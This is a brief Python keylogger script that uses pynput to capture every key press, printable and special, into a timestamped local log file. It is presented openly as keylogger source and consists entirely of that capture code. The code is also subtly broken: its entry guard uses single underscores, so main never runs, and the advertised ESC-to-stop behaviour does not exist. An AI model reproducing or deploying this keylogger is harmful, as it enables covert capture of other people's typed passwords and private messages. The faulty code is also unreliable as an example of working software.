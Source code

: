 # keylogger
from pynput import keyboard
import logging
from datetime import datetime

# Set up logging configuration
log_file = f"keylog_{datetime.now().strftime('%Y%m%d_%H%M%S')}.txt"
logging.basicConfig(filename=log_file, level=logging.DEBUG, format='%(asctime)s: %(message)s')

def on_press(key):
    try:
        logging.info(f"Key pressed: {key.char}")
    except AttributeError:
        logging.info(f"Special key pressed: {key}")

def main():
    print("🔐 Keylogger is running... (Press ESC to stop)")

    # Start listening to keyboard
    with keyboard.Listener(on_press=on_press) as listener:
        listener.join()  # Keep the listener running

if _name_ == "_main_":
    main()
